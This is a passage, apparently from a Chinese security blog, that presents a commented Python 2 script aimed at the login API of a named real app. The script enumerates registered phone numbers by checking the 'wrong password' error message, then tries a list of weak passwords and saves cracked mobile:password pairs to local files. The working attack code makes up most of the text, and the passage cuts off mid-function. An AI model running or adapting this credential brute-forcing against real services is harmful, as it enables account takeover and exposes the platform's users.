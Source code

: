 此处内容包含cookie，等相关信息。那么我们在蘑菇的脚本上稍微加一些改动即可实现爆破。

脚本如下，加了注释

```python
#!/usr/bin/env python
# _*_ coding: utf-8 _*_ 
# author=Hydra_Tc
# create=20150224S

import json
import random
import requests
import threadpool as tp

def _burp(mobile): # 验证密码是否正确
    for password in ['qwertyu','123456', '123456789', '000000', mobile,'1234567','12345678','1234567890']: # 弱口令密码
        api_url = 'http://aifengpai.com/api/user/login'   # 登陆接口
        data = {'mobile': mobile,
                'did':'c71c53fa20c38d4a14ae8245bac9bb99',
                'password': password,}   # 登陆参数，这里简化了，去除了不必要的参数
        try:
            print '[*] Burp mobile: %s' % mobile
            req = requests.post(api_url, data=data, timeout=5) # requests模块的post请求
        except:
            continue
        try:
            success = json.loads(req.content)['data']
            burp_success = open('./fengpai_account.txt', 'a+') # 随机成功后生成该txt，并写成功数据
            burp_success.write('%s:::%s\n'%(mobile, password))
            burp_success.close()
            print success
            return success
        except:
            success = 0
            print '[-] Burp False'
            continue

def _status(args): # 判断手机号是否注册
        flag = 0
        list = "0123456789" 
        sa = []
        for i in range(8): #长度8,改了一下蘑菇牛的范围写法，自身测试感觉测试速度稍微加快了点
            sa.Append(random.choice(list))
        while True:
            flag += 1
            account_test = random.choice(['138','130','133','135','138','139','150','152','155','159','180','181','182','185','187','189'])\ # 手机号前几位
                                            +''.join(sa)
            data = {'mobile': account_test,
                    'did':'c71c53fa20c38d4a14ae8245bac9bb99',
                    'password': 'jhjhksd'}
            api_url = 'http://aifengpai.com/api/user/login'
            try:
                print '[%s] Test account: %s' % (flag, account_test)
                req = requests.post(api_url, data=data, timeout=3)
                req_status = json.loads(req.content)['error'] # 提取response里error处内容
            except:
                req_status = 0
            if req_status == u'\u5bc6\u7801\u9519\u8bef\uff0c\u518d\u4ed4\u7ec6\u60f3\u60f3': #两值相等则存在有该账号
                success_f = open('./fp_phone.txt', 'a+')
                success_f.write('%s\n'%account_test)
                success_f.close()
```